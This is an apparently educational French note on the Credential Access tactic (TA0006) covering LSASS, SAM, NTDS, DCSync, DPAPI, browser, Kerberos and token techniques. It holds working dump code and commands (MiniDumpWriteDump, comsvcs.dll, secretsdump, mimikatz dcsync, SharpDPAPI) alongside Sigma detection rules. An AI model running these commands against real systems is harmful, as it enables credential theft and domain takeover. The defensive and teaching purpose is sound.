

# Credential Access

Le credential access (TA0006) regroupe les techniques qui consistent à obtenir des éléments permettant de s'authentifier : mot de passe en clair, hash NTLM, ticket Kerberos, clé DPAPI, jeton d'accès, cookie de session, certificat ou secret applicatif. C'est la tactique qui transforme une compromission locale en mouvement dans le système d'information, et c'est souvent elle qui décide de la gravité réelle d'un incident.

La distinction avec l'élévation de privilèges (TA0004) est poreuse. L'élévation exploite une faiblesse pour obtenir plus de droits sur une machine ; le credential access récupère un secret, qui donnera parfois ces droits sans exploiter quoi que ce soit. Un compte de service administrateur local sur dix serveurs ne nécessite aucune élévation : son mot de passe suffit.

> [!abstract] Définition — Matériel d'authentification
> Tout élément qui permet à un processus ou à une personne de prouver une identité, ou de la revendiquer, sans nécessairement connaître le mot de passe d'origine. Cela inclut les secrets stockés ou dérivés (hash NTLM, clés Kerberos, masterkeys DPAPI), les preuves temporaires (tickets, cookies, jetons OAuth), les certificats et les secrets applicatifs. La valeur d'un matériel se mesure à ce qu'il permet d'atteindre et à sa durée de vie, pas à sa forme.

## Cartographie des sources

Les secrets sont dispersés parce que Windows, les applications et les navigateurs doivent authentifier l'utilisateur sans lui redemander son mot de passe en permanence. Chaque mécanisme de confort est une source potentielle.



| Technique | ID ATT&CK | Source | Prérequis |
|---|---|---|---|
| LSASS Memory | T1003.001 | mémoire de `lsass.exe` | admin local ou SeDebugPrivilege |
| Security Account Manager | T1003.002 | ruche SAM | SYSTEM ou admin |
| NTDS | T1003.003 | `ntds.dit` | DC, sauvegarde ou copie VSS |
| LSA Secrets | T1003.004 | ruche SECURITY | SYSTEM |
| Cached Domain Credentials | T1003.005 | cache de LSASS | admin local |
| DCSync | T1003.006 | réplication AD | droits de réplication |
| Kerberoasting | T1558.003 | TGS de comptes à SPN | compte de domaine |
| AS-REP Roasting | T1558.004 | AS-REP sans pré-auth | accès réseau au KDC |
| Golden / Silver Ticket | T1558.001, T1558.002 | hash krbtgt ou compte de service | hash préalable |
| Pass the Hash / Pass the Ticket | T1550.001, T1550.002 | hash NTLM ou ticket | matériel préalable |
| Credentials from Web Browsers | T1555.003 | profils navigateur | accès au profil |
| Windows Credential Manager | T1555.004 | coffre utilisateur | session utilisateur |
| Password Managers | T1555.005 | coffres locaux | accès au fichier ou au processus |
| Unsecured Credentials | T1552.001 à .006 | fichiers, registre, GPP, IMDS | accès lecture |
| Token Impersonation | T1134.001 | jetons de processus | SeImpersonate ou admin |
| Steal Web Session Cookie | T1539 | cookies navigateur | accès au profil ou injection |
| Steal Application Access Token | T1528 | flux OAuth, device code | interaction utilisateur |
| Forge Web Credentials | T1606.001, .002 | SAML, cookies | secret de signature |
| Steal or Forge Authentication Certificates | T1649 | ADCS, PKINIT | accès CA ou certificat |

## LSASS : le coffre central

`lsass.exe` authentifie les utilisateurs, applique les politiques de sécurité et conserve les secrets nécessaires aux sessions ouvertes. Selon les paquets d'authentification chargés, il contient des hash NTLM (`msv1_0`), des mots de passe en clair si WDigest est activé, des clés Kerberos (RC4, AES128, AES256), des tickets, des secrets DPAPI et des credentials de gestionnaire (`credman`). C'est pourquoi un dump de LSASS est souvent suffisant pour passer d'un poste utilisateur à un serveur.

Les méthodes se classent en trois familles : ouvrir le processus et demander un minidump via `MiniDumpWriteDump` ; détourner un binaire signé ou un service légitime (`comsvcs.dll`, `procdump`, gestionnaire de tâches, `WerFault`) ; exploiter un mécanisme noyau ou un pilote vulnérable lorsque LSASS est protégé.

```c
// Extraction minimale par MiniDumpWriteDump
#include <windows.h>
#include <dbghelp.h>
#pragma comment(lib, "dbghelp.lib")

BOOL dump_lsass(DWORD pid, const char *path) {
    HANDLE hProc = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION | PROCESS_VM_READ,
                               FALSE, pid);
    if (!hProc) return FALSE;

    HANDLE hFile = CreateFileA(path, GENERIC_WRITE, 0, NULL,
                               CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) return FALSE;

    BOOL ok = MiniDumpWriteDump(hProc, pid, hFile, MiniDumpWithFullMemory,
                                NULL, NULL, NULL);
    CloseHandle(hFile);
    CloseHandle(hProc);
    return ok;
}
```

```powershell
# Variante sans binaire externe : comsvcs.dll, export MiniDump
$pid_lsass = (Get-Process lsass).Id
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $pid_lsass C:\Windows\Temp\lsass.dmp full

# Variante signée Microsoft, très utilisée en engagement
procdump64.exe -accepteula -ma lsass.exe C:\Windows\Temp\lsass.dmp

# Analyse hors ligne, sur une machine d'analyse
pypykatz lsa minidump lsass.dmp
```

Deux protections changent la donne. La première est RunAsPPL : LSASS s'exécute comme processus protégé léger, et un processus non signé ne peut plus l'ouvrir, même en administrateur. La seconde est Credential Guard : les secrets dérivés sont isolés dans une enclave virtualisée (LSAIso), inaccessible au noyau Windows lui-même. Credential Guard neutralise l'extraction des hash NTLM et des tickets Kerberos de LSASS, mais ne protège ni la SAM locale, ni la base NTDS d'un contrôleur de domaine, ni les secrets DPAPI utilisateur, ni les cookies de navigateur.

Les clés de registre associées sont `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL` et la politique `LsaCfgFlags` pour Credential Guard. Un attaquant qui constate `RunAsPPL = 1` doit changer de famille : DCSync, SAM hors ligne, DPAPI, ou vol de jeton, plutôt que d'insister sur LSASS.

## SAM, SECURITY, NTDS et DCSync

La base SAM contient les comptes locaux ; la ruche SECURITY contient les secrets LSA (mots de passe de service, comptes d'auto-logon, clé de sauvegarde DPAPI, cache de credentials de domaine) ; `ntds.dit` contient tous les comptes du domaine.

```powershell
# Copie des ruches (nécessite SYSTEM pour SAM et SECURITY)
reg save HKLM\SAM     C:\Windows\Temp\sam.hive
reg save HKLM\SYSTEM  C:\Windows\Temp\system.hive
reg save HKLM\SECURITY C:\Windows\Temp\security.hive

# Analyse hors ligne avec Impacket
secretsdump.py -sam sam.hive -system system.hive -security security.hive LOCAL
```

```bash
# Sur un contrôleur de domaine : copie à chaud de ntds.dit
vssadmin create shadow /for=C:
diskshadow /s script.txt
# script.txt : set context persistent nowriters
#               add volume C: alias ntds
#               expose %ntds% Z:

ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\ifm" q q

# Ou extraction directe via esentutl
esentutl /y /vss C:\Windows\NTDS\ntds.dit /d C:\Windows\Temp\ntds.dit
```

DCSync (T1003.006) est plus discret : au lieu de copier la base, l'attaquant se fait passer pour un contrôleur de domaine et demande la réplication des secrets via DRSUAPI. Il faut les droits `DS-Replication-Get-Changes` et `DS-Replication-Get-Changes-All` sur le domaine, accordés par défaut aux Domain Admins, aux Enterprise Admins et aux contrôleurs de domaine. Ces droits peuvent aussi être délégués à un compte de service ou à un groupe métier, ce que [[BloodHound]] révèle. Côté Windows, Mimikatz propose l'équivalent ; les commandes sont détaillées dans [[Mimikatz]].

```bash
# DCSync ciblé, sans copie de base
secretsdump.py -just-dc-user krbtgt exemple.local/admin:MotDePasse@dc01.exemple.local

# Tous les comptes, format hashcat
secretsdump.py -just-dc -outputfile hashes exemple.local/admin:MotDePasse@dc01.exemple.local
```

```text
lsadump::dcsync /domain:exemple.local /user:krbtgt
```

Les comptes de service gérés de groupe (gMSA) stockent leur mot de passe dans l'attribut `msDS-ManagedPassword`, lisible par les principaux autorisés. LAPS stocke le mot de passe administrateur local dans `ms-Mcs-AdmPwd` (LAPS historique) ou `msLAPS-EncryptedPassword` (Windows LAPS), lisible selon les ACL. Un compte qui lit ces attributs obtient des accès sans toucher à LSASS.

## DPAPI, navigateurs et coffres

DPAPI chiffre les secrets utilisateur avec une clé dérivée du mot de passe et protégée par le système. Les masterkeys se trouvent dans `%APPDATA%\Microsoft\Protect\<SID>` ; leur déchiffrement nécessite le mot de passe de l'utilisateur, son hash, ou la clé de sauvegarde DPAPI du domaine. Cette dernière, stockée dans les secrets LSA d'un contrôleur de domaine, permet de déchiffrer à distance les secrets de n'importe quel utilisateur du domaine, ce qui explique la gravité de la compromission d'un DC.

```bash
# Déchiffrement des masterkeys avec la clé de sauvegarde du domaine
SharpDPAPI.exe backupkey /server:dc01.exemple.local /file:backup.key
SharpDPAPI.exe masterkeys /target:C:\Users\alice\AppData\Roaming\Microsoft\Protect /pvk:backup.key

# Collecte à distance des secrets DPAPI d'un utilisateur
DonPAPI collect -u alice -p 'MotDePasse' -d exemple.local --target 10.10.10.20
```

Les navigateurs sont une cible de choix parce qu'ils concentrent mots de passe, cookies de session, jetons OAuth et historique. Chrome et Edge stockent les mots de passe dans `Login Data`, les cookies dans `Network\Cookies`, et la clé de chiffrement dans `Local State`, protégée par DPAPI. Depuis 2024, Chrome protège une partie de ces secrets (cookies, puis mots de passe selon les versions) par App-Bound Encryption : la clé n'est plus seulement déchiffrable par DPAPI, elle est liée à l'application, ce qui oblige à exécuter du code dans le contexte du navigateur ou à contourner le service de protection.

Firefox utilise NSS : `key4.db` et `logins.json` dans le profil. Les outils `firefox_decrypt`, `SharpChromium`, `HackBrowserData` et `CookieKatz` couvrent les cas courants ; `LaZagne` agrège navigateurs, coffres, clients mail et applications.

```bash
# Firefox : extraction des identifiants depuis un profil copié
python3 firefox_decrypt.py /tmp/profil_firefox

# Chrome : la copie du profil doit inclure Local State et le dossier Network
# L'analyse hors ligne est préférable pour ne pas exécuter le navigateur
```

Les coffres de mots de passe (KeePass, 1Password, Bitwarden) suivent la même logique : un fichier `.kdbx` copié est attaquable hors ligne si le mot de passe maître est faible, un coffre ouvert peut être vidé par injection dans le processus légitime. Les secrets CI/CD (`.env`, kubeconfig, clés cloud) sont souvent en clair dans des fichiers de configuration ou dans l'historique Git.

## Kerberos et certificats

Les attaques Kerberos sont couvertes en détail dans [[Kerberos Attacks]] ; du point de vue du credential access, retenons trois choses. Kerberoasting et AS-REP Roasting produisent des hash crackables hors ligne, sans verrouillage de compte ; Rubeus couvre l'extraction, la demande et l'injection de tickets. Les tickets présents en mémoire sont des credentials à part entière : un TGT volé permet le pass-the-ticket, un TGS de service permet un silver ticket. Enfin, les délégations (non contrainte, contrainte, RBCD) transforment un serveur compromis en collecteur de tickets.

Les certificats sont devenus une famille à part entière (T1649). Un certificat émis par une autorité de certification d'Active Directory, avec un template permissif, permet de s'authentifier par PKINIT et d'obtenir un TGT sans mot de passe. Le vol d'un certificat sur un poste, ou l'exploitation d'ADCS (ESC1 à ESC8), relève de la même logique : le certificat est un matériel d'authentification durable, souvent valable un an, et sa révocation est rarement effectuée dans l'urgence. [[ADCS]] détaille les templates et les chemins d'exploitation.

## Jetons et sessions

Un jeton d'accès Windows représente une session authentifiée. Voler un jeton n'est pas voler un mot de passe : le jeton porte les groupes, les privilèges et parfois l'élévation. `SeImpersonatePrivilege`, accordé par défaut aux comptes de service et aux pools IIS, permet d'usurper un jeton disponible et, avec un jeton SYSTEM, d'élever localement les privilèges. Les outils de la famille « potato » (JuicyPotato, PrintSpoofer, GodPotato, RoguePotato) exploitent ce privilège via des services qui s'authentifient auprès de l'attaquant.

```powershell
# Lister les jetons accessibles et les privilèges du processus courant
whoami /priv
Invoke-TokenManipulation -Enumerate

# Exécuter un processus avec un jeton volé (exemple : jeton SYSTEM)
Invoke-TokenManipulation -CreateProcess "cmd.exe" -Username "NT AUTHORITY\SYSTEM"

# Créer un logon réseau sans profil local (type 9), utile pour PtH
runas /netonly /user:exemple.local\administrateur cmd.exe

# Cobalt Strike / Mimikatz : make_token, steal_token, rev2self
```

La distinction entre jeton et credential est opérationnelle : un jeton volé ne survit pas au redémarrage et n'est utilisable que sur la machine où il existe (sauf délégation), tandis qu'un hash ou un ticket se transporte. Un cookie ou un refresh token OAuth, lui, agit comme un jeton portable, indépendant de la machine.

## Utilisabilité des secrets

Les secrets ne se valent pas. Le tableau ci-dessous guide le choix après une collecte.

| Matériel | Transportable | Contourne le MFA | Durée | Limite principale |
|---|---|---|---|---|
| Mot de passe en clair | oui | non | jusqu'au changement | MFA, politique |
| Hash NTLM | oui | non (sauf relais) | jusqu'au changement | NTLM désactivé, Protected Users |
| Clé AES Kerberos | oui | non | jusqu'au changement | nécessite la salt |
| Ticket TGT | oui | oui | 10 h, renouvelable | détection, PAC |
| Ticket de service | oui | oui | 10 h | limité au service |
| Cookie de session | oui | oui | heures à jours | expiration, binding |
| Jeton OAuth | oui | oui | heures à mois | révocation, CAE |
| Certificat | oui | oui | mois à an | révocation, template |
| Jeton Windows | non | oui | jusqu'au logoff | local à la machine |
| Masterkey DPAPI | non | oui | jusqu'au changement | périmètre utilisateur |

La question « ce secret est-il utilisable ? » dépend de l'environnement : NTLM peut être désactivé, les comptes sensibles peuvent être dans Protected Users, les tickets peuvent être validés par PAC, les cookies peuvent être liés à l'appareil. Un hash NTLM inutilisable reste intéressant pour le cracking hors ligne, mais ne doit pas être confondu avec un accès.

## Détection

**Accès à LSASS.** Sysmon événement 10 (`ProcessAccess`) avec `TargetImage` se terminant par `lsass.exe` et un `GrantedAccess` de `0x1010`, `0x1410`, `0x143a` ou `0x1fffff` est le signal de base. Les événements 4656 et 4663 couvrent l'audit d'accès objet lorsque l'audit est activé. Les lignes de commande de `rundll32 comsvcs.dll, MiniDump`, `procdump -ma lsass`, `Taskmgr` avec dump, ou un binaire inconnu dont le parent est un éditeur de script complètent le tableau. Defender ASR fournit une règle dédiée au vol de credentials dans LSASS, et RunAsPPL/Credential Guard réduisent la surface.

```yaml
title: Accès mémoire à LSASS
id: 9b3f2c41-6d8a-4e2b-b7c5-1a0e4f8d2c66
status: stable
logsource:
  product: windows
  category: process_access
detection:
  selection:
    TargetImage|endswith: '\lsass.exe'
    GrantedAccess:
      - '0x1010'
      - '0x1410'
      - '0x1fffff'
  filter:
    SourceImage|endswith:
      - '\MsMpEng.exe'
      - '\SenseIR.exe'
      - '\wininit.exe'
  condition: selection and not filter
falsepositives:
  - Outils de sauvegarde et de supervision
  - Antivirus légitimes
level: high
```

**DCSync.** L'événement 4662 sur l'objet domaine, avec les propriétés `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` et `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`, et un compte qui n'est pas un contrôleur de domaine, est très discriminant. Le compte source, l'adresse IP et le volume de requêtes complètent l'analyse. Une réplication légitime vient d'un DC connu, sur le port RPC habituel, dans une fenêtre de maintenance.

```yaml
title: Réplication AD depuis un compte non-DC
id: 1e7a5d92-4c3b-4f80-a1d6-8b2c9e0f7a44
status: experimental
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4662
    Properties|contains:
      - '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'
      - '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'
  filter:
    SubjectUserName|endswith: '$'
  condition: selection and not filter
falsepositives:
  - Outils de synchronisation d'annuaire
level: critical
```

**Kerberos.** Les journaux 4768 (AS-REQ) et 4769 (TGS-REQ) portent le type de chiffrement. Une demande de TGS en RC4 (`0x17`) pour un compte de service, répétée sur de nombreux SPN, évoque un Kerberoasting ; un 4768 avec `PreAuthType` à 0 évoque un AS-REP Roasting. Les connexions réseau associées apparaissent en 4624 types 3 et 9, et 4648 pour les credentials explicites. Le volume et la diversité des SPN comptent plus que l'événement isolé.

**SAM, NTDS et ruches.** La création de fichiers `sam.hive`, `system.hive`, `security.hive`, `ntds.dit` ou de clichés VSS hors procédure, et l'exécution de `ntdsutil ifm`, `diskshadow` ou `esentutl /y` sur un DC, sont des signaux à corréler avec l'identité de l'opérateur. DCSync est plus silencieux mais laisse l'événement 4662.

**DPAPI, navigateurs, fichiers.** L'accès aux répertoires `Protect`, `Credentials`, `Login Data`, `Local State` ou `key4.db` par un processus qui n'est pas le navigateur est un signal utile, surtout hors horaires d'ouverture. La recherche de fichiers contenant des secrets (`Snaffler`, `manspider`, `trufflehog`) produit des accès massifs à des partages, détectables par les journaux d'accès SMB et par les leurres.

**Leurres.** Les honeytokens sont particulièrement adaptés : identifiant factice dans un fichier `passwords.txt`, hash de mot de passe canary, compte honey avec SPN, secret cloud leurre. Leur usage déclenche une alerte à très faible faux positif, ce qui compense la difficulté des règles comportementales.

La limite de la détection est structurelle : le credential access légitime existe. Les sauvegardes lisent SAM, les outils d'inventaire interrogent LDAP, les administrateurs utilisent `runas /netonly`, les navigateurs déchiffrent leurs propres secrets. La détection ne peut pas reposer sur l'action seule ; elle doit corréler l'acteur, l'hôte, l'horaire et la destination du secret.

> [!quiz] Pourquoi Credential Guard ne rend-il pas DCSync impossible ?
> Parce que Credential Guard protège les secrets dérivés dans LSASS sur les machines où il est activé. DCSync ne lit pas LSASS : il demande au contrôleur de domaine de répliquer les secrets via DRSUAPI, avec des droits d'annuaire. La protection du DC contre la réplication abusive relève des ACL, de la surveillance 4662 et de la tiering.

> [!quiz] Quelle différence entre un ticket de service volé et un hash NTLM volé ?
> Le ticket de service est déjà émis pour un service précis et une identité donnée : il permet d'accéder à ce service sans mot de passe ni nouveau recours au KDC, mais ne donne pas le hash. Le hash NTLM permet de s'authentifier plus largement (NTLM, pass-the-hash, demande de TGT), mais il est inutilisable si NTLM est désactivé ou si le compte est protégé.

> [!quiz] Pourquoi un cookie de session est-il souvent plus utile qu'un mot de passe ?
> Parce qu'il représente une session déjà authentifiée : il contourne le MFA, ne déclenche pas de nouvelle authentification et donne accès à l'application dans l'état où l'utilisateur l'a laissée. Sa durée de vie est plus courte, mais sa collecte ne nécessite aucun cracking.
